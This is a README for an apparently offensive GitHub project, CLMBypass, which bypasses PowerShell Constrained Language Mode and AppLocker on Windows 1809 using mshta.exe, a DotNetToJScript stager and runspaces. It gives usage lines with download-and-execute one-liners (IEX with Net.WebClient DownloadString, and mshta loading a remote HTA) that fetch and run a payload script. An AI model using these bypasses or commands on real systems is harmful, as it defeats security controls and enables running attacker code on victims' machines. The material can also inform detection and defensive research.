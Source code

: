 # CLMBypass

Bypass Constrained Language Mode in PowerShell, based off of [SecJuice's](https://www.secjuice.com/powershell-constrainted-language-mode-bypass-using-runspaces/) article. Also comes with a stager in case AppLocker is being used, used [DotNetToJScript](https://github.com/tyranid/DotNetToJScript) and [the mshta.exe AWL bypass](https://blog.conscioushacker.io/index.php/2017/11/17/application-whitelisting-bypass-mshta-exe/).

### key
- **[A]** denotes applocker bypass for 1809
- **[C]** denots Constrained Language Mode bypass for 1809

<hr>

## content
### CLMBypass.hta [A][C]
- The WScript.Shell creates a new runspace
- `payload.ps1` is downloaded and executed in FullLanguage mode
- **Usage:** mshta.exe http://localhost/CLMBypass.hta`

### CLMBypass.js [A][C]
- Realized this is redundant... the hta execution already creates another runspace with FullLanguage mode. Leaving it here just in case.
- **Usage:** On Line 131 you can add something like `o.Main("IEX(New-Object Net.WebClient).DownloadString('http://localhost/somescript.ps1')");`
- when the page is loaded, this will execute. If you use DotNetToJScript on your own, the functions and classes *must be public* and the class must have the `[ComVisible(true)]` tag (see Program.cs for an example).

### CLMBypass.exe [C]
- Compiled as PE32 .NET Framework 4.0
- **Usage:** `.\CLMBypass.exe "IEX(New-Object Net.WebClient).DownloadString('http://localhost/somescript.ps1')"`

### Program.cs
- C# source code for CLMBypass.dll, a little outdated for the PE

### payload.ps1
- payload to be run in FullLanguage mode
